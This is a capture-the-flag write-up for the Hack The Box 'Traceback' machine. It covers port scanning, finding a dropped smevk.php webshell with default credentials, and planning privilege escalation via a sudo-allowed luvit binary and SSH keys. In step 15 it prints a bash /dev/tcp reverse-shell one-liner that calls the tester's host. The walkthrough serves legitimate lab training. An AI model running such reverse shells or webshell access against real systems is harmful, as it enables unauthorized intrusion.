 # TraceBack
> Write-up author: jon-brandy


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a5389983-7994-42b7-87d6-c39c262b8597)


## Lessons Learned:
1. Enumeration.
2. Utilizing dropped backdoor.
3. Writing Lua.
4. Generating ssh-keys.
5. Manipulating SSH Motd.

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC traceback.htb --min-rate 1000 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-25 19:53 PDT
Nmap scan report for traceback.htb (10.10.10.181)
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9625518e6c830748ce114b1fe56d8a28 (RSA)
|   256 54bd467114bdb242a1b6b02d94143b0d (ECDSA)
|_  256 4dc3f852b885ec9c3e4d572c4a82fd86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Help us
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.67 seconds
```

1. Based from the nmap results above, seems the machine runs web application at port 80 and opens ssh login at port 22.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0ed872db-def1-40fd-b05b-f01b2f8d6548)


2. Seems the webapp is already compromised and the attacker left a backdoor which is accessible he said.
3. Hence let's execute directory listing using **dirsearch**.
4. However, dirsearch resulting to none. It means the webshell filename is not common.
5. Reviewing the message shown, resulting to no clue other than searching the `Xh4H` name online.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f7d67e1f-c1d5-4919-b0f7-3617db19484b)



6. Traversing on the internet resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f5d980a2-9a97-4b54-a70e-a82e3600451a)


7. Adding **webshell** to our search query, resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/75d799d5-5024-41b6-bf40-3d71becb4ddc)


8. The first result, should be our interest.

> GITHUB

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1384da27-8377-4203-b854-bb513772c9e8)

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e6c49331-c7e6-4672-9fe2-3b2ca7ab052a)


9. Enumerating each webshell file, the backdoor dropped is --> `smevk.php`.

> Enter creds --> `admin:admin` (shown at the source code).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/363c04a5-96e9-4972-b799-ee967df3f46e)


10. Indeed it seems the best backdoor 🤲🏻.
11. Long story short, after traversing to `/home/webadmin`, found a note from sysadmin team.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/051e6bac-d543-485c-8429-a6da4faa6d3b)

12. Reviewing the bash history file, found that a binary named **luvit** seems inside the sudo permission.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fd1ac823-a2ee-4330-ad17-afd3a7a4c729)


13. This could be used for our privesc method.
14. Great! Anyway let's get more comfy enumeration by getting a reverse shell.
15. I used simple bash reverse shell:

```txt
bash -c 'bash -i >& /dev/tcp/10.10.14.4/1337 0>&1'
```

16. Set up a listener at port **1337** than enter it on the **execute** box.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ef6adcff-da39-4c24-bc8b-1fe47e9bbeea)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2a27e9b7-5e5d-4ad5-9b8c-70f7baa8668c)


17. Remembering the **luvit** binary is inside the **sysadmin** home directory, we need to traverse there, but currently we are denied.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c7ab4b96-ae8f-45df-8825-c177f4ff3123)


18. BUT thing to note, the binary is still accessible outisde the **sysadmin** home directory.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/30fcc402-ea95-46e5-83d8-9b12e350fb76)


19. Hence, there is a chance the other files are done the same. Now we're targeting the **.ssh** key.
20. Remembering we can specify a username, hence introducing 2 methods can be done to gain access to sysadmin's home directory.
21. The first method is using the **luvit** binary, the second method is by generating the ssh-keys.
